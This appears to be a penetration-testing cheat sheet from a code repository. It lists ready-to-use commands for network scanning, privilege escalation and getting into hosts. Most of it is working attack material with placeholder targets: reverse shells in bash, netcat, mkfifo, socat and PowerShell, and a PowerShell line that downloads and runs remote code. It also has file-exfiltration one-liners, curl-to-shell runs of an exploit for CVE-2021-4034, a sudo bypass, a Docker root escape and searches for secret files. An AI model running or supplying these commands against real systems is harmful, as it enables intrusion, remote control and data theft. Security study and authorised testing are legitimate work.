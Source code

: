 # CHEATSHEET


## ENUMERATION

### NETWORK

 #### **HOST DISCOVERY**
 
```bash
arp-scan -I <INTERFACE> --localnet --ignoredups
```

 #### **TCP OPEN PORTS**
 
```bash
nmap -p- --open -sS -n -v -Pn --min-rate 5000 -oG allPorts <TARGET> 
```

 #### **INFO & VERSION**
 
```bash
nmap -p<PORTS> -sCV -oN portScan <TARGET>
```

 #### **HTTP ENUMERATION**

 Enumerate common directories and files with nmap
 
```bash
nmap -p<PORTS> --script http-enum -oN webScan <TARGET>
```

 Gobuster

```bash
# Directories
gobuster dir -u <URL> -w <WORDLIST>

# Files by extension
gobuster dir -u <URL> -w <WORDLIST> -x http,php,txt

# Subdomains
gobuster vhost -u <URL> -w <WORDLIST>

# Useful parameters
--threads, -t
--exclude-length
--status-codes, -s
--status-codes-blacklist, -b
--no-tls-validation, -k
--timeout
```



## REVERSE SHELLS

 #### **BASH**
 
```bash
bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
```

 #### **NETCAT**
 
```bash
nc -e /bin/bash <IP> <PORT>
```

 #### **MKFIFO**
 
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> <PORT> >/tmp/f
```

 #### **SOCAT**
 
```bash
socat tcp-connect:<IP>:<PORT> exec:/bin/bash,pty,stderr,setsid,sigint,sane
```

 #### **POWERSHELL**

```powershell
$client = New-Object System.Net.Sockets.TCPClient('<IP>',<PORT>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String);$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

```

 #### **CMD**
 
```powershell
powershell IEX(New-Object Net.WebClient).DownloadString('http://<IP>/<RESOURCE>')
```



## SHARE AND DOWNLOAD


 ### **HTTP SERVER**
 
```bash
# Python3
python3 -m http.server 80

# Python2
python -m SimpleHTTPServer 80

# PHP
php -S 0.0.0.0:80
```

 ### **SMB** 
 
```bash
smbserver.py shareName $(pwd) -smb2support
```

 ### **FILE TRANSFER ( NETCAT - BASH )** 
 
```bash
# Listen
nc -nlvp <PORT> > <FILE>

# Send
cat <FILE> | nc <IP> <PORT>  # Netcat
cat <FILE> > /dev/tcp/<IP>/<PORT>  # Bash
```

 ### **DOWNLOAD** 

 Powershell
 
```powershell
(New-Object Net.WebClient).DownloadString('<URL>') > <PATH>
```

Cmd
 
```shell
certutil -urlcache -split -f <URL> <PATH>
```

Bash
 
```bash
wget "http://<IP>/"
```



## SYSTEM ENUMERATION


 #### **Enviroment Variables**
 
```bash
# User enviroment variables
env || set

# Common project enviroment file
find / -name ".env" 2>/dev/null
```

 #### **Find SUID on GUID files**
 
```bash
# SUID
find / -perm -4000 2>/dev/null

# GUID
find / -perm -2000 2>/dev/null
```

 #### **Check capabilities**
 
```bash
getcap -r / 2>/dev/null
```

 #### **Open local ports
 
```bash
ss -nltp
```

 #### **Cron Jobs**
 
```bash
# Cron files
find /etc -name "cron*" 2>/dev/null

# Logs
ls -l /var/log/syslog
ls -l /var/log/cron
```

 #### **Monitoring processes**
 
```bash
old_ps=$(ps -eo user,command); while true; do; new_ps=$(ps -eo user,command); diff <(echo "$old_ps") <(echo "$new_ps") | grep "[\>\<]" |grep -Ev "kworker|user,command"; old_ps=$new_ps; done
```

 #### **Scripts with write permissions**
 
```bash
find / -user <USER> -perm -o+w \( -name \"*.sh\" -O -name \"*.py\" -O -name \"*.pl\" -O -name \"*.rb\" -O -name \"*.go\" -O -name \"*.lua\" \) 2>/dev/null
```

 #### **LinPEAS**
 
```bash
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```



## PRIVILEGE ESCALATION

 ### **Sudo**

```bash
# List user privileges
sudo -l

# Check sudo version
sudo -V | grep "Sudo ver"

# Sudo < v1.28
sudo -u#-1 /bin/bash
```

 ### **Polkit - (CVE-2021-4034)**

```bash
# Check pkexec permissions
ls -l $(which pkexec)

# If pkexec has SUID
curl -L https://raw.githubusercontent.com/joeammond/CVE-2021-4034/main/CVE-2021-4034.py | python3
```
 
 ### **Docker**
 
```bash
docker run -it --rm -v /:/mnt alpine chroot /mnt sh
```

